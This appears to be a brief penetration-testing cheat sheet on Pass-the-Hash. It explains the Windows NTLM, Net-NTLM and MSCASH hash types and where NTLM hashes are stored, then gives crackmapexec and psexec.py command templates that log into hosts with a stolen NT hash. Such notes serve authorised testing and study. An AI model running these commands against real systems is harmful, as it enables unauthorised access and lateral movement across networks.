 # Pass the Hash

## Brief

* **NTLM** (aka NT) hashes are **local users hashes.**
* **NTMLv1/v2** (aka Net-NTLMv1/v2) hashes are used for **network authentication**.
* **MSCASHv1/v2** (aka DCCv1/v2) are **domain users hashes**.

> You **can** perform Pass-the-Hash on **NTLM** hashes. You **cannot** perform Pass-the-Hash on **Net-NTLM** hashes.

NTLM hashes are stored in the **Security Account Manager** (SAM) database and in Domain Controller's **NTDS.dit** database.

## Attack

```bash
crackmapexec $ip_range/$CIDR -u $user -H $hash(only NT part) --local
psexec.py $user:@$ip_addr -hashes $hash
```

